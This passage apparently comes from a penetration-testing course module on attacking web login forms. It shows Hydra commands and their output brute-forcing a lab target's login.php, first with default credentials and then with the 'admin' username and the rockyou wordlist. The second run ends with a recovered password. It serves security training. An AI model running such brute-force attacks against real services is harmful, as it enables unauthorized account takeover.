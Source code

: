 Let's try to use the `ftp-betterdefaultpasslist.txt` list with the default credentials to test if one of the accounts is registered in the web application.

&#x20; Login Form Attacks

```shell-session
AbdulrahmanTamim@htb[/htb]$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) d020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

As we can see, we were not able to identify any working credentials. Still, this only took a few seconds, and we ruled out the use of default passwords. Now, we can move on to use a password wordlist.

***

### Password Wordlist

Since the brute force attack failed using default credentials, we can try to brute force the web application form with a specified user. Often usernames such as `admin`, `administrator`, `wpadmin`, `root`, `adm`, and similar are used in administration panels and are rarely changed. Knowing this fact allows us to limit the number of possible usernames. The most common username administrators use is `admin`. In this case, we specify this username for our next attempt to get access to the admin panel.

&#x20; Login Form Attacks

```shell-session
AbdulrahmanTamim@htb[/htb]$ hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'

[PORT][http-post-form] host: 178.35.49.134   login: admin   password: password123
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```
